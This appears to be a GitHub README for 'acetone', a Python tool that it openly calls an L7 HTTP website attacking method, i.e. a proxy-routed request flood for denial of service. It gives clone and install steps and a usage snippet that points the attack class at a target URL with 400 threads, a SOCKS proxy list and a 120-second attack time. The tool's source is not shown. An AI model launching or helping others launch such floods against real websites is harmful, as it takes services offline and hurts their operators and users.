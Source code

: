 # acetone

a L7-HTTP website attacking method written in Python 3 (PySocks lib)

## Installation

1. Download the script:
```bash
git clone https://github.com/khoi1908vn/acetone.git
```
2. Install the requirements:
```bash
pip install -r requirements.txt
```

## Usage

Import the ``Acetone()`` class and run it in your script:

```python
from acetone import Acetone

url = 'https://example.com'
# 5 for SOCKS5, 4 for SOCKS4 
socks_type = 5
# proxies file path
proxies_path = 'socks5.txt'
# threads to be created to attack
thread_num = 400
# attack time in seconds
attack_time = 120

Acetone(url=url, socks_type=socks_type, proxies_path=proxies_path, thread_num=thread_num, attack_time=attack_time)
```

## Contributing

This project is private and not yet ready to receive pull requests.

After this repo is public, any contribution is appreiciated!

## License

[MIT](https://choosealicense.com/licenses/mit/)
